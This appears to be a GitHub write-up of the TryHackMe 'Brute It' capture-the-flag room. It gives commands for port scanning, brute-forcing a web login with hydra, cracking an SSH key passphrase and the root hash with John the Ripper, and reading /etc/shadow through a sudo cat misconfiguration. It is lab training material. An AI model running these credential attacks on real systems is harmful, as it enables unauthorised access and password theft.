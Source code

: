 # Brute-it-CTF
https://tryhackme.com/room/bruteit

**Use sudo nmap to scan for open ports: sudo nmap -sS 10.10.254.49**

	PORT   STATE SERVICE

	22/tcp open  ssh

	80/tcp open  http

**Use dirb tool to uncover hidden directories on the web server:**

	==> DIRECTORY: http://10.10.254.49/admin/

Inspect the page and following clue will apear:

	<!-- Hey john, if you do not remember, the username is admin -->

*john could be a SSH username*

Do a failed login attemt while inspecting the page, head to the network tab and then to the request tab. Click on the request payload to see the format used.

**Use hydra to bruteforce the login page:** 

**hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.254.49 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"**

	80][http-post-form] host: 10.10.254.49   login: admin   password: ******

Login to form page and the web flag will be shown and also a private RSA key

Copy the rsa key to a text file > ida_rsa

**locate ssh2john and cp to your current folder and excute the program - python sshjohn.py ida_rsa > id_rsa.hash**

**Crack the hash with: sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt**

	rockinroll       (ida_rsa)
	  

ssh to the user john with the rsa key and passphrase: sh -i ida_rsa john@10.10.239.162 

cat user.txt to find for the flag

sudo -l to check what commands we can run with sudo:

	 (root) NOPASSWD: /bin/cat

sudo cat /root/root.txt will get you the final flag

sudo cat /etc/shadow and copy the root password hash:

	root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::

**Use johntheripper to crack the hash: john -w=/usr/share/wordlists/rockyou.txt roothash**

The root password is found 



